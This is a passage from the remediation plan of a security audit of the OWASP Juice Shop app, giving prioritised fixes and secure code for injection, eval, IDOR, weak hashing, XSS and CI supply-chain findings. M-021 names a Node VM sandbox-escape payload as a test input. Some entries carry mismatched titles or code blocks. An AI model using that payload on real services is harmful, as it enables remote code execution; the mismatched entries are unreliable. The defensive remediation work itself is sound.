2. Alternatively use `sequelize.query('SELECT * FROM Products WHERE (name LIKE ? OR description LIKE ?) AND deletedAt IS NULL', { replacements: [`%\${criteria}%`, `%\${criteria}%`], ... })`.
3. Validate `criteria` to only allow printable non-control characters before the database call.

```javascript
import { Op } from 'sequelize'
// routes/search.ts — ORM approach
const products = await ProductModel.findAll({
  where: {
    [Op.or]: [
      { name: { [Op.like]: `%${criteria}%` } },
      { description: { [Op.like]: `%${criteria}%` } }
    ],
    deletedAt: null
  },
  order: [['name', 'ASC']]
})
```

**Reference:** CWE-89

---

<a id="m-016"></a>
#### M-016 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-007](#f-007) — Remote Code Execution (`routes/userProfile.ts:62`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `routes/userProfile.ts:62`

**How:** Remove the `eval(code)` branch entirely from `routes/userProfile.ts`. The SSTI challenge it enables should be implemented in a sandboxed environment or through a safer expression evaluator that does not have access to `Node.js` built-ins. If expression evaluation is required for challenge purposes, use `notevil` (already imported in `routes/b2bOrder.ts`) with an explicit allowlist of permitted expressions, and strip `require`, `process`, and `__proto__` from input before evaluation. Enforce a username format allowlist (alphanumeric + limited punctuation) at the point of profile update to reject `#{}` patterns server-side.

1. Remove the `eval(code)` branch entirely from `routes/userProfile.ts`. The SSTI challenge it enables should be implemented in a sandboxed environment or through a safer expression evaluator that does not have access to `Node.js` built-ins.
2. If expression evaluation is required for challenge purposes, use `notevil` (already imported in `routes/b2bOrder.ts`) with an explicit allowlist of permitted expressions, and strip `require`, `process`, and `__proto__` from input before evaluation.
3. Enforce a username format allowlist (alphanumeric + limited punctuation) at the point of profile update to reject `#{}` patterns server-side.

```javascript
// routes/userProfile.ts — remove the eval branch
// Instead, HTML-encode the username for safe display
const displayUsername = entities.encode(user.username ?? '')
```

**Reference:** CWE-94

---

<a id="m-017"></a>
#### M-017 — Enforce object-level (ownership) authorization

**Addresses:**

- 🔴 [F-008](#f-008) — Insecure Direct Object Reference (`routes/address.ts:11`)
- 🔴 [F-009](#f-009) — Insecure Direct Object Reference (`routes/address.ts:18`)
- 🔴 [F-010](#f-010) — Insecure Direct Object Reference (`routes/address.ts:29`)
- 🔴 [F-011](#f-011) — Insecure Direct Object Reference (`routes/dataExport.ts:26`)
- 🔴 [F-012](#f-012) — Insecure Direct Object Reference (`routes/deluxe.ts:25`)
- 🔴 [F-013](#f-013) — Insecure Direct Object Reference (`routes/deluxe.ts:30`)
- 🔴 [F-014](#f-014) — Insecure Direct Object Reference (`routes/deluxe.ts:35`)
- 🔴 [F-015](#f-015) — Insecure Direct Object Reference (`routes/memory.ts:15`)
- 🔴 [F-016](#f-016) — Insecure Direct Object Reference (`routes/order.ts:142`)
- 🔴 [F-017](#f-017) — Insecure Direct Object Reference (`routes/order.ts:144`)
- 🔴 [F-018](#f-018) — Insecure Direct Object Reference (`routes/order.ts:151`)
- 🔴 [F-019](#f-019) — Insecure Direct Object Reference (`routes/payment.ts:21`)
- 🔴 [F-020](#f-020) — Insecure Direct Object Reference (`routes/payment.ts:41`)
- 🔴 [F-021](#f-021) — Insecure Direct Object Reference (`routes/payment.ts:70`)
- 🔴 [F-022](#f-022) — Insecure Direct Object Reference (`routes/wallet.ts:12`)
- 🔴 [F-023](#f-023) — Insecure Direct Object Reference (`routes/wallet.ts:24`)
- 🔴 [F-024](#f-024) — Insecure Direct Object Reference (`routes/wallet.ts:27`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-018"></a>
#### M-018 — Enforce server-side field allowlist before every Sequelize User write to exclude the role field

**Addresses:**

- 🔴 [F-025](#f-025) — Mass-assignment of role field enables privilege escalation (`models/user.ts:80`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `models/user.ts:80`

**How:** In every route handler that creates or updates User records, explicitly pick only the allowed fields from `req.body` using a fixed allowlist (e.g., `const allowed = _.pick(req.body, ['username', 'email', 'password', 'profileImage'])`). Add a Sequelize `beforeUpdate` / `beforeCreate` hook in `models/user.ts` that throws if `role` is set to a value other than `'customer'` for a non-admin caller context. Consider marking `role` with a Sequelize virtual-field setter that validates the caller's current role before allowing promotion. Add an integration test that POSTs `{role: 'admin'}` to the user creation endpoint and asserts the role is stored as `'customer'`.

1. In every route handler that creates or updates User records, explicitly pick only the allowed fields from `req.body` using a fixed allowlist (e.g., `const allowed = _.pick(req.body, ['username', 'email', 'password', 'profileImage'])`).
2. Add a Sequelize `beforeUpdate` / `beforeCreate` hook in `models/user.ts` that throws if `role` is set to a value other than `'customer'` for a non-admin caller context.
3. Consider marking `role` with a Sequelize virtual-field setter that validates the caller's current role before allowing promotion.
4. Add an integration test that POSTs `{role: 'admin'}` to the user creation endpoint and asserts the role is stored as `'customer'`.

```javascript
// Route handler — safe field extraction
import _ from 'lodash'
const safeFields = _.pick(req.body, ['username', 'email', 'password', 'profileImage'])
await UserModel.update(safeFields, { where: { id: req.user.data.id } })
```

**Reference:** CWE-915

---

<a id="m-020"></a>
#### M-020 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🔴 [F-027](#f-027) — MD5 password hashing without salt (`models/user.ts:77`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `models/user.ts:77`

**How:** Replace `security.hash()` in `lib/insecurity.ts` with `bcrypt.hash(password, 12)` (or `argon2.hash(password, { type: argon2.argon2id })`); install the `bcrypt` or `argon2` npm package. Update the `User.password` setter in `models/user.ts` to call the async bcrypt/Argon2 hash function (requires converting the setter to an `async` method or a `beforeCreate`/`beforeUpdate` hook). On next successful login, re-hash passwords transparently: verify the submitted password against the stored `MD5` hash, then store a bcrypt/Argon2 hash and clear the `MD5` hash. Add a migration that marks existing `MD5` hashes with a `hash_version: 1` column so they can be identified and rehashed on next login or forced reset.

1. Replace `security.hash()` in `lib/insecurity.ts` with `bcrypt.hash(password, 12)` (or `argon2.hash(password, { type: argon2.argon2id })`); install the `bcrypt` or `argon2` npm package.
2. Update the `User.password` setter in `models/user.ts` to call the async bcrypt/Argon2 hash function (requires converting the setter to an `async` method or a `beforeCreate`/`beforeUpdate` hook).
3. On next successful login, re-hash passwords transparently: verify the submitted password against the stored `MD5` hash, then store a bcrypt/Argon2 hash and clear the `MD5` hash.
4. Add a migration that marks existing `MD5` hashes with a `hash_version: 1` column so they can be identified and rehashed on next login or forced reset.

```javascript
// models/user.ts — use bcrypt hook instead of MD5 setter
import bcrypt from 'bcrypt'
User.addHook('beforeCreate', async (user: User) => {
  if (user.password) {
    user.password = await bcrypt.hash(user.password, 12)
  }
})
```

**Reference:** CWE-916

---

<a id="m-021"></a>
#### M-021 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-028](#f-028) — VM Sandbox Escape (`routes/b2bOrder.ts:23`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/b2bOrder.ts:23`

**How:** Replace `vm.runInContext('safeEval(orderLinesData)', sandbox)` with a typed JSON schema validator (e.g. `zod` or `ajv`) that parses `orderLinesData` as a structured order-line array with explicit numeric/string field constraints. Reject any input that does not match the schema before processing. If expression evaluation is functionally required, replace `notevil` with a purpose-built safe arithmetic evaluator that operates on a CST (not an AST that touches `Object.prototype`), such as `expr-eval` with a strict operator allowlist. Add an integration test asserting that the payload `Object.constructor.constructor('return process')()` returns an HTTP 400 (bad request) rather than executing.

1. Replace `vm.runInContext('safeEval(orderLinesData)', sandbox)` with a typed JSON schema validator (e.g. `zod` or `ajv`) that parses `orderLinesData` as a structured order-line array with explicit numeric/string field constraints. Reject any input that does not match the schema before processing.
2. If expression evaluation is functionally required, replace `notevil` with a purpose-built safe arithmetic evaluator that operates on a CST (not an AST that touches `Object.prototype`), such as `expr-eval` with a strict operator allowlist.
3. Add an integration test asserting that the payload `Object.constructor.constructor('return process')()` returns an HTTP 400 (bad request) rather than executing.

```javascript
import { z } from 'zod'

const OrderLineSchema = z.array(z.object({
  productId: z.number().int().positive(),
  quantity: z.number().int().positive().max(1000)
}))

// In handler:
const parsed = OrderLineSchema.safeParse(body.orderLinesData)
if (!parsed.success) {
  return res.status(400).json({ error: 'Invalid order lines format' })
}
// use parsed.data — never eval()
```

**Reference:** CWE-94

---

<a id="m-022"></a>
#### M-022 — Exclude role field from user registration body before model creation

**Addresses:**

- 🔴 [F-029](#f-029) — Mass Assignment to role Field in User Registration (`server.ts:419`)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `server.ts:419`

**How:** Add a middleware before `finale.initialize()` that strips `role`, `totpSecret`, and any other privileged fields from `req.body` on `POST /api/Users`. In the User model definition, mark `role` as not mass-assignable by removing it from the Sequelize `create()` input or using a dedicated `allowlist` helper. Set the default `role` value to `'customer'` in the model definition as a defense-in-depth measure. Add an integration test asserting that a registration request with `role:admin` body results in a `customer`-role account.

1. Add a middleware before `finale.initialize()` that strips `role`, `totpSecret`, and any other privileged fields from `req.body` on `POST /api/Users`.
2. In the User model definition, mark `role` as not mass-assignable by removing it from the Sequelize `create()` input or using a dedicated `allowlist` helper.
3. Set the default `role` value to `'customer'` in the model definition as a defense-in-depth measure.
4. Add an integration test asserting that a registration request with `role:admin` body results in a `customer`-role account.

```javascript
// server.ts — add before finale
app.post('/api/Users', (req, res, next) => {
  delete req.body.role
  delete req.body.totpSecret
  next()
})
```

**Reference:** CWE-915

---

<a id="m-023"></a>
#### M-023 — Remove server-side evaluation of untrusted input

**Addresses:**

- 🔴 [F-030](#f-030) — Server-Side Template Injection (`routes/userProfile.ts:62`)

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/userProfile.ts:62`

**How:** Remove the `#{...}` pattern detection block entirely (lines 55-68) and use `entities.encode(username)` directly when inserting the username into the Pug template. Pass username as a Pug template variable rather than via string replacement - Pug auto-escapes variables in `#{varName}` template syntax: `fn({ username: entities.encode(username) })`. If challenge behaviour must be preserved, gate the `eval()` path behind an environment variable (e.g. `CHALLENGE_MODE=true`) that is never set in production deployments.

1. Remove the `#{...}` pattern detection block entirely (lines 55-68) and use `entities.encode(username)` directly when inserting the username into the Pug template.
2. Pass username as a Pug template variable rather than via string replacement - Pug auto-escapes variables in `#{varName}` template syntax: `fn({ username: entities.encode(username) })`.
3. If challenge behaviour must be preserved, gate the `eval()` path behind an environment variable (e.g. `CHALLENGE_MODE=true`) that is never set in production deployments.

```javascript
// Secure: no eval — pass as escaped template variable
const fn = pug.compile(template)
res.send(fn({ ...user.dataValues, username: entities.encode(user.username) }))
```

**Reference:** CWE-95

---

### P2 — This Sprint

<a id="m-001"></a>
#### M-001 — Apply least-privilege permissions

**Addresses:**

- 🟠 [F-054](#f-054) — Incorrect Permission Assignment (`codeql-analysis.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

---

<a id="m-002"></a>
#### M-002 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-055](#f-055) — Third-party GitHub Actions not pinned to commit SHA (`codeql-analysis.yml:23`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:23`

**How:** Pin every third-party action to a full 40-char commit SHA - Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

---

<a id="m-003"></a>
#### M-003 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-056](#f-056) — Docker base image not digest-pinned — Dockerfile:1

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest> - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-004"></a>
#### M-004 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-057](#f-057) — On not committed on absent (`package-lock.json`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `package-lock.json:0`

**How:** Commit `package-lock.json`; use `npm ci` in CI - Without a lockfile, `npm install` installs different transitive versions on each run - supply-chain attacks become undetectable.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-014"></a>
#### M-014 — Eliminate derived passwords; use server-side OAuth token exchange without a password proxy

**Addresses:**

- 🔴 [F-005](#f-005) — OAuth-Derived Predictable Password (`oauth.component.ts:30`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `frontend/src/app/oauth/oauth.component.ts:30`

**How:** Remove the derived-password pattern entirely. Do not create or update a local password record during OAuth login. Implement server-side OAuth token validation: the backend accepts the `access_token`, validates it with Google's tokeninfo endpoint, and issues a Juice Shop JWT directly - no local password account is created or used. If a local password is operationally required, generate a cryptographically random 256-bit secret server-side at account creation time and never expose it to the client. Add a check in `POST /rest/user/login` that rejects login attempts for accounts flagged as `oauth_only` with a password credential.

1. Remove the derived-password pattern entirely. Do not create or update a local password record during OAuth login.
2. Implement server-side OAuth token validation: the backend accepts the `access_token`, validates it with Google's tokeninfo endpoint, and issues a Juice Shop JWT directly - no local password account is created or used.
3. If a local password is operationally required, generate a cryptographically random 256-bit secret server-side at account creation time and never expose it to the client.
4. Add a check in `POST /rest/user/login` that rejects login attempts for accounts flagged as `oauth_only` with a password credential.

```javascript
// Server-side: validate OAuth token and issue app JWT directly
// routes/oauth.ts
const { data } = await axios.get(`https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=${access_token}`);
if (data.aud !== process.env.GOOGLE_CLIENT_ID) throw new Error('aud mismatch');
const user = await UserModel.findOrCreate({ where: { email: data.email } });
const appJwt = security.authorize(user); // issue own JWT, no password involved
```

**Reference:** CWE-522

---

<a id="m-019"></a>
#### M-019 — Stop storing sensitive data in cleartext

**Addresses:**

- 🔴 [F-026](#f-026) — Payment card number stored as unencrypted INTEGER (`models/card.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** High · **File:** `models/card.ts:39`

**How:** Integrate a payment tokenization provider (e.g., Stripe, Braintree) - store only the provider-issued token and last 4 digits of the PAN; never persist the full card number locally. If local storage is required, change `cardNum` type to `DataTypes.STRING` and store a field-level AES-256-GCM encrypted value; manage the encryption key via an HSM or KMS rather than in application code. Add a Sequelize `beforeCreate` hook that encrypts the PAN before persistence and a `afterFind` hook that decrypts only for display, returning a masked version (e.g., `**** **** **** 1234`) via the API. Audit all `GET /api/Cards` responses to ensure the full card number is never serialized to the API response even when stored encrypted.

1. Integrate a payment tokenization provider (e.g., Stripe, Braintree) - store only the provider-issued token and last 4 digits of the PAN; never persist the full card number locally.
2. If local storage is required, change `cardNum` type to `DataTypes.STRING` and store a field-level AES-256-GCM encrypted value; manage the encryption key via an HSM or KMS rather than in application code.
3. Add a Sequelize `beforeCreate` hook that encrypts the PAN before persistence and a `afterFind` hook that decrypts only for display, returning a masked version (e.g., `**** **** **** 1234`) via the API.
4. Audit all `GET /api/Cards` responses to ensure the full card number is never serialized to the API response even when stored encrypted.

**Reference:** CWE-312

---

<a id="m-024"></a>
#### M-024 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-031](#f-031) — Rate Limit Bypass (`server.ts:346`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:346`

**How:** Remove the custom `keyGenerator` from the `/rest/user/reset-password` rate limiter so express-rate-limit uses the TCP remote address (`req.ip`) as the default key. Configure `app.set('trust proxy', 1)` only if a known, trusted reverse proxy exists, and validate it validates the forwarded-for chain rather than blindly trusting the header. Extend rate limiting to cover the full password-reset flow including the security-answer verification endpoint.

1. Remove the custom `keyGenerator` from the `/rest/user/reset-password` rate limiter so express-rate-limit uses the TCP remote address (`req.ip`) as the default key.
2. Configure `app.set('trust proxy', 1)` only if a known, trusted reverse proxy exists, and validate it validates the forwarded-for chain rather than blindly trusting the header.
3. Extend rate limiting to cover the full password-reset flow including the security-answer verification endpoint.

```javascript
// server.ts — remove the keyGenerator override
app.use('/rest/user/reset-password', rateLimit({
  windowMs: 5 * 60 * 1000,
  max: 10  // tighten limit when key cannot be spoofed
}))
```

**Reference:** CWE-307

---

<a id="m-025"></a>
#### M-025 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🔴 [F-032](#f-032) — Weak Password Hashing (`models/securityAnswer.ts:46`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/securityAnswer.ts:46`

**How:** Generate a cryptographically random secret (minimum 256 bits) at application startup and store it in an environment variable (e.g., `SECURITY_ANSWER_HMAC_KEY`) rather than in source code. Update `lib/insecurity.ts` to read the HMAC key from `process.env.SECURITY_ANSWER_HMAC_KEY`; throw a startup error if the variable is absent. Migrate existing stored HMAC values: on next successful answer verification (plaintext supplied by user), rehash with the new key and persist. Consider replacing HMAC with bcrypt or Argon2 for security answers, as HMAC does not add computational cost against offline cracking.

1. Generate a cryptographically random secret (minimum 256 bits) at application startup and store it in an environment variable (e.g., `SECURITY_ANSWER_HMAC_KEY`) rather than in source code.
2. Update `lib/insecurity.ts` to read the HMAC key from `process.env.SECURITY_ANSWER_HMAC_KEY`; throw a startup error if the variable is absent.
3. Migrate existing stored HMAC values: on next successful answer verification (plaintext supplied by user), rehash with the new key and persist.
4. Consider replacing HMAC with bcrypt or Argon2 for security answers, as HMAC does not add computational cost against offline cracking.

```javascript
// lib/insecurity.ts — replace hardcoded key
const hmacKey = process.env.SECURITY_ANSWER_HMAC_KEY
if (!hmacKey) throw new Error('SECURITY_ANSWER_HMAC_KEY env var is required')
export const hmac = (str: string): string =>
  crypto.createHmac('sha256', hmacKey).update(str).digest('hex')
```

**Reference:** CWE-916

---

<a id="m-027"></a>
#### M-027 — Add JWT authentication middleware to Socket\.IO connection handshake

**Addresses:**

- 🔴 [F-034](#f-034) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:24`

**How:** Add `io.use((socket, next) => { ... })` middleware in `registerWebsocketEvents.ts` before the `io.on('connection', ...)` handler. Extract the Bearer token from `socket.handshake.auth.token` or `socket.handshake.headers.authorization`. Verify the token using the existing `security.verify()` / `jwt.verify()` call from `lib/insecurity.ts` with an explicit `algorithms: ['RS256']` allowlist. Call `next(new Error('unauthorized'))` on failure. Attach the verified user payload (`socket.data.user = decoded`) so downstream event handlers can scope operations to the authenticated user. Replace the development-only `cors: { origin: 'http://localhost:4200' }` with an environment-variable-driven allowlist for production deployments.

1. Add `io.use((socket, next) => { ... })` middleware in `registerWebsocketEvents.ts` before the `io.on('connection', ...)` handler. Extract the Bearer token from `socket.handshake.auth.token` or `socket.handshake.headers.authorization`.
2. Verify the token using the existing `security.verify()` / `jwt.verify()` call from `lib/insecurity.ts` with an explicit `algorithms: ['RS256']` allowlist. Call `next(new Error('unauthorized'))` on failure.
3. Attach the verified user payload (`socket.data.user = decoded`) so downstream event handlers can scope operations to the authenticated user.
4. Replace the development-only `cors: { origin: 'http://localhost:4200' }` with an environment-variable-driven allowlist for production deployments.

```javascript
// lib/startup/registerWebsocketEvents.ts
io.use((socket, next) => {
  const token = socket.handshake.auth?.token ||
                socket.handshake.headers?.authorization?.replace('Bearer ', '')
  if (!token) return next(new Error('unauthorized'))
  try {
    socket.data.user = jwt.verify(token, security.publicKey, { algorithms: ['RS256'] })
    next()
  } catch {
    next(new Error('unauthorized'))
  }
})
```

**Reference:** CWE-306

---

<a id="m-029"></a>
#### M-029 — Hash passwords with a strong, salted algorithm

**Addresses:**

- 🟠 [F-036](#f-036) — MD5 password hashing enables offline credential recovery (`lib/insecurity.ts:43`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:43`

**How:** Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` or `argon2.hash(data)` from the bcryptjs or argon2 npm package. Add a migration that re-hashes existing passwords on next login (detect old `MD5` format by length/prefix, re-hash on successful auth). Update all callers of `security.hash()` (`login.ts:34`, 2fa.ts:113, 2fa.ts:159) to use the new async function and await accordingly. Store salted hashes - bcrypt embeds the salt automatically.

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(data, 12)` or `argon2.hash(data)` from the bcryptjs or argon2 npm package.
2. Add a migration that re-hashes existing passwords on next login (detect old `MD5` format by length/prefix, re-hash on successful auth).
3. Update all callers of `security.hash()` (`login.ts:34`, 2fa.ts:113, 2fa.ts:159) to use the new async function and await accordingly.
4. Store salted hashes - bcrypt embeds the salt automatically.

```javascript
// lib/insecurity.ts — replace MD5 with bcrypt
import bcrypt from 'bcryptjs'
export const hash = async (data: string): Promise<string> =>
  bcrypt.hash(data, 12)
export const verifyPassword = async (plain: string, stored: string): Promise<boolean> =>
  bcrypt.compare(plain, stored)
```

**Reference:** CWE-916

---

<a id="m-030"></a>
#### M-030 — Replace the weak cryptographic algorithm

**Addresses:**

- 🟠 [F-037](#f-037) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:43`

**How:** Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(password, 12)` using the `bcryptjs` or `bcrypt` npm package. At login, use `bcrypt.compare(providedPassword, storedHash)` instead of comparing raw hashes. Migrate existing user records on next login: if the stored hash is `MD5`-length (32 hex chars), re-hash the provided password with bcrypt and update the record. Never store the plaintext password during migration.

1. Replace `crypto.createHash('md5')` in `lib/insecurity.ts:43` with `bcrypt.hash(password, 12)` using the `bcryptjs` or `bcrypt` npm package.
2. At login, use `bcrypt.compare(providedPassword, storedHash)` instead of comparing raw hashes.
3. Migrate existing user records on next login: if the stored hash is `MD5`-length (32 hex chars), re-hash the provided password with bcrypt and update the record.
4. Never store the plaintext password during migration.

```javascript
import bcrypt from 'bcryptjs'
export const hash = async (data: string) => bcrypt.hash(data, 12)
export const verifyHash = async (data: string, hash: string) => bcrypt.compare(data, hash)
```

**Reference:** CWE-327

---

<a id="m-031"></a>
#### M-031 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-038](#f-038) — Insecure Direct Object Reference (`routes/basketItems.ts:68`)
- 🟠 [F-039](#f-039) — Insecure Direct Object Reference (`routes/delivery.ts:34`)
- 🟠 [F-040](#f-040) — Insecure Direct Object Reference (`routes/orderHistory.ts:36`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `routes/basketItems.ts:68`

**How:** Add an owner column to the WHERE clause (UserId: `req.user.id`) or wrap the route in an `ensureOwnership`/`requireRole` middleware.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

<a id="m-032"></a>
#### M-032 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟠 [F-041](#f-041) — Root-Privilege Postinstall Execution in Docker Build — Dockerfile:5

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Remove `--unsafe-perm` from the `npm install` command in `Dockerfile:5`; if postinstall scripts fail without it, investigate which dependency requires root and assess whether that dependency is necessary. Pin the builder base image to a specific digest: replace `FROM node:24` with `FROM node:24@sha256:<current-digest>` and set up Dependabot or Renovate to track digest updates. Add `npm dedupe` after `npm install` and verify the build still passes - this is already present at line 6, so the main change is removing `--unsafe-perm`. Consider using `npm install --ignore-scripts --omit=dev` if the build does not require lifecycle scripts, then run only the specific build scripts explicitly.

1. Remove `--unsafe-perm` from the `npm install` command in `Dockerfile:5`; if postinstall scripts fail without it, investigate which dependency requires root and assess whether that dependency is necessary.
2. Pin the builder base image to a specific digest: replace `FROM node:24` with `FROM node:24@sha256:<current-digest>` and set up Dependabot or Renovate to track digest updates.
3. Add `npm dedupe` after `npm install` and verify the build still passes - this is already present at line 6, so the main change is removing `--unsafe-perm`.
4. Consider using `npm install --ignore-scripts --omit=dev` if the build does not require lifecycle scripts, then run only the specific build scripts explicitly.

```javascript
# Dockerfile — before
RUN npm install --omit=dev --unsafe-perm

# After
RUN npm install --omit=dev --ignore-scripts
RUN npm run build  # explicit build step instead of relying on postinstall
```

**Reference:** CWE-250

---

<a id="m-033"></a>
#### M-033 — Pin third-party dependencies to immutable versions

**Addresses:**

- 🟠 [F-042](#f-042) — Lockfile Disabled Enabling Dependency Confusion

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.npmrc:1`

**How:** Remove `package-lock=false` from `.npmrc` and remove `package-lock.json` from `.gitignore`. Run `npm install` locally to generate `package-lock.json`, then commit it. Do the same for `frontend/package-lock.json`. Add `npm ci` (instead of `npm install`) in all CI workflow jobs - `npm ci` requires a lockfile and fails if `package-lock.json` is absent or inconsistent with `package.json`. Add `npm audit --audit-level=high` as a required CI gate step to catch known vulnerabilities in resolved dependencies.

1. Remove `package-lock=false` from `.npmrc` and remove `package-lock.json` from `.gitignore`.
2. Run `npm install` locally to generate `package-lock.json`, then commit it. Do the same for `frontend/package-lock.json`.
3. Add `npm ci` (instead of `npm install`) in all CI workflow jobs - `npm ci` requires a lockfile and fails if `package-lock.json` is absent or inconsistent with `package.json`.
4. Add `npm audit --audit-level=high` as a required CI gate step to catch known vulnerabilities in resolved dependencies.

```javascript
# ci.yml — replace npm install with npm ci in all jobs
- name: "Install application"
  run: npm ci

- name: "Audit dependencies"
  run: npm audit --audit-level=high
```

**Reference:** CWE-829

---

<a id="m-034"></a>
#### M-034 — Pin the container base image to an immutable digest

**Addresses:**

- 🟠 [F-043](#f-043) — Mutable Action Tag Supply Chain Injection (`codeql-analysis.yml:23`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `ci.yml:161`

**How:** Run `gh api repos/github/codeql-action/git/refs/tags/v3 --jq '.object.sha'` to resolve the current SHA for `codeql-action@v3`, then replace each `@v3` reference in `codeql-analysis.yml` with `@<sha> #v3`. Run `gh api repos/coverallsapp/github-action/git/refs/tags/v2 --jq '.object.sha'` and replace `coverallsapp/github-action@v2` in `ci.yml:161` with the resolved SHA. Enable GitHub's Dependabot for `github-actions` in `.dependabot/config.yml` to keep SHA-pinned actions updated automatically. Add a CI step using `pinact` or `actionlint` to enforce that all action references are SHA-pinned before merge.

1. Run `gh api repos/github/codeql-action/git/refs/tags/v3 --jq '.object.sha'` to resolve the current SHA for `codeql-action@v3`, then replace each `@v3` reference in `codeql-analysis.yml` with `@<sha> #v3`.
2. Run `gh api repos/coverallsapp/github-action/git/refs/tags/v2 --jq '.object.sha'` and replace `coverallsapp/github-action@v2` in `ci.yml:161` with the resolved SHA.
3. Enable GitHub's Dependabot for `github-actions` in `.dependabot/config.yml` to keep SHA-pinned actions updated automatically.
4. Add a CI step using `pinact` or `actionlint` to enforce that all action references are SHA-pinned before merge.

```javascript
# codeql-analysis.yml — before
- uses: github/codeql-action/init@v3

# After (SHA from 2026-06 — always re-resolve before committing)
- uses: github/codeql-action/init@cdcdbb579706841c204a7e43f9d38b4aea0cf7e3 #v3
```

**Reference:** CWE-1104

---

<a id="m-035"></a>
#### M-035 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-044](#f-044) — Stored XSS (`about.component.ts:119`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `frontend/src/app/about/about.component.ts:119`

**How:** Remove the `bypassSecurityTrustHtml` call. Render the star rating HTML using Angular template directives (`*ngFor` with `<i>` elements) instead of injecting raw HTML strings. For any user-supplied text in `comment`, use Angular's standard interpolation `{{ feedbacks[i].comment }}` which auto-escapes HTML. If rich formatting is required, sanitize comments server-side through an HTML allowlist (e.g., `sanitize-html` with a strict `allowedTags` set) before storing in the database. Add a Content Security Policy header (`script-src 'self'`) via the Express backend to reduce XSS impact across the SPA.

1. Remove the `bypassSecurityTrustHtml` call. Render the star rating HTML using Angular template directives (`*ngFor` with `<i>` elements) instead of injecting raw HTML strings.
2. For any user-supplied text in `comment`, use Angular's standard interpolation `{{ feedbacks[i].comment }}` which auto-escapes HTML.
3. If rich formatting is required, sanitize comments server-side through an HTML allowlist (e.g., `sanitize-html` with a strict `allowedTags` set) before storing in the database.
4. Add a Content Security Policy header (`script-src 'self'`) via the Express backend to reduce XSS impact across the SPA.

```javascript
// Replace HTML injection with template directives
// about.component.html
<figcaption>
  <p class="feedback-comment">{{ feedback.comment }}</p>
  <div class="feedback-stars">
    <i *ngFor="let star of getStars(feedback.rating)"
       [class]="star.filled ? 'fas fa-star' : 'far fa-star'"></i>
  </div>
</figcaption>
```

**Reference:** CWE-79

---

<a id="m-036"></a>
#### M-036 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🔴 [F-045](#f-045) — Stored XSS (`last-login-ip.component.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `frontend/src/app/last-login-ip/last-login-ip.component.ts:39`

